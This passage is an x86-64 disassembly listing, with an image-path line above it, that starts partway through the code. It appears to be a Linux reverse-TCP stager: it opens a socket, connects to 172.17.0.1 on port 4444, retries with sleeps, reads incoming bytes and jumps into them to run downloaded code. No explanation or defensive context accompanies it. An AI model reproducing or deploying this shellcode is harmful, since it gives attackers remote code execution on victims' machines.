 ```
17: 48 85 c0                test   rax,rax
1a: 78 51                   js     0x6d
1c: 6a 0a                   push   0xa
1e: 41 59                   pop    r9
20: 50                      push   rax
21: 6a 29                   push   0x29
23: 58                      pop    rax
24: 99                      cdq
25: 6a 02                   push   0x2
27: 5f                      pop    rdi
28: 6a 01                   push   0x1
2a: 5e                      pop    rsi
2b: 0f 05                   syscall
2d: 48 85 c0                test   rax,rax
30: 78 3b                   js     0x6d
32: 48 97                   xchg   rdi,rax
34: 48 b9 02 00 11 5c ac    movabs rcx,0x10011ac5c110002
3b: 11 00 01
3e: 51                      push   rcx
3f: 48 89 e6                mov    rsi,rsp
42: 6a 10                   push   0x10
44: 5a                      pop    rdx
45: 6a 2a                   push   0x2a
47: 58                      pop    rax
48: 0f 05                   syscall
4a: 59                      pop    rcx
4b: 48 85 c0                test   rax,rax
4e: 79 25                   jns    0x75
50: 49 ff c9                dec    r9
53: 74 18                   je     0x6d
55: 57                      push   rdi
56: 6a 23                   push   0x23
58: 58                      pop    rax
59: 6a 00                   push   0x0
5b: 6a 05                   push   0x5
5d: 48 89 e7                mov    rdi,rsp
60: 48 31 f6                xor    rsi,rsi
63: 0f 05                   syscall
65: 59                      pop    rcx
66: 59                      pop    rcx
67: 5f                      pop    rdi
68: 48 85 c0                test   rax,rax
6b: 79 c7                   jns    0x34
6d: 6a 3c                   push   0x3c
6f: 58                      pop    rax
70: 6a 01                   push   0x1
72: 5f                      pop    rdi
73: 0f 05                   syscall
75: 5e                      pop    rsi
76: 6a 26                   push   0x26
78: 5a                      pop    rdx
79: 0f 05                   syscall
7b: 48 85 c0                test   rax,rax
7e: 78 ed                   js     0x6d
80: ff e6                   jmp    rsi 
```
